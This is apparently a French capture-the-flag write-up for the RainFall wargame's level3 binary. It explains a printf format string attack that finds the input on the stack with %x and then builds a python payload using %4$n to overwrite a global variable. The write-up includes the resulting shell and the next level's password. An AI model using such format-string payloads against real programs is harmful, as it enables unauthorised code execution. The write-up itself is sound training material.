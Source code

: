 # Level 2

En ouvrant level3 avec cutter on voit que le main appelle une fonction v qui lit et stock l'entre standard dans un char * m a l'adresse `0x804988c` ensuite afficher par un printf qui ne precise pas le type de donner attendue ce qui permet de faire une *format string attack*.Il faut donc réussir a injecter la bonne valeur a cette adresse. La format string attack permet de savoir la position de l'adresse dans la stack. A l'aide des %x on peut alors afficher ces adresses. On entre alors une entree reconnaissable comme `a` qui en hexadecimal donne 61 et on y ajoute des %x pour trouver ca position.
```
level3@RainFall:~$ ./level3 
aaaa %x %x %x %x %x %x %x
aaaa 200 b7fd1ac0 b7ff37d0 61616161 20782520 25207825 78252078
level3@RainFall:~$ 
```
On voit alors que l'entree est stockée a la 4eme adresse de la stack, ce qui nous permet d'utiliser un parametre de printf : le %n. Ce dernier permet de  compter les character le precedant et le stocker dans le parametre ici m. Donc il suffit de cree un payload qui va override `0x804988c` (m), afficher 60 caracter (64 - 4 pour l'adresse), %4 pour le 4 `"%x"` au dessus `$n` pour stocker le compte dans m.
```
level3@RainFall:~$ python -c "print '\x8c\x98\x04\x08' + 'a' * 60 + '%4\$n'" > /tmp/payload
level3@RainFall:~$ cat /tmp/payload - | ./level3
�aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Wait what?!
whoami
level4
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```
